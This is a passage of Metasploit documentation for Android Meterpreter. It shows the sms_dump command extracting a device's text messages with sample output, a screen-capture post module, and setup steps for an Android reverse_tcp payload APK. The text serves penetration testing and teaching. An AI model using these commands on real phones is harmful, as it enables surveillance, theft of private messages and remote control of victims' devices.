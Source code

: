 **sms_dump**

The `sms_dump` command allows you to retrieve SMS messages. And save them as a text file.
For example:

```
meterpreter > dump_sms
[*] Fetching 4 sms messages
[*] SMS messages saved to: sms_dump_20160308163212.txt

...

$ cat sms_dump_20160308163212.txt

=====================
[+] SMS messages dump
=====================

Date: 2016-03-08 15:30:12 -0600
OS: Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
Remote IP: 192.168.1.207
Remote Port: 59130

#1
Type	: Incoming
Date	: 2016-03-08 15:29:32
Address	: **********
Status	: NOT_RECEIVED
Message	: Hello world

...

```

**run**

The `run` command allows you to run a post module against the remote machine at the Meterpreter
prompt. For example:

```
meterpreter > run post/android/capture/screen 
```

## Scenarios

**Uploading APK to an Emulator using install_msf_apk.sh**

The Metasploit Framework comes with a script that allows you to automatically upload your APK to
an active emulator and execute it. It requires the [Android SDK platform-tools](http://developer.android.com/sdk/installing/index.html)
to run, as well as [Java](https://java.com/en/download/).

To use this, follow these steps:

1. Start the Android Emulator
2. Generate the Android payload as an APK.
3. In `msfconsole`, start a handler for `android/meterpreter/reverse_tcp`
4. Run the installer script like this from a terminal:
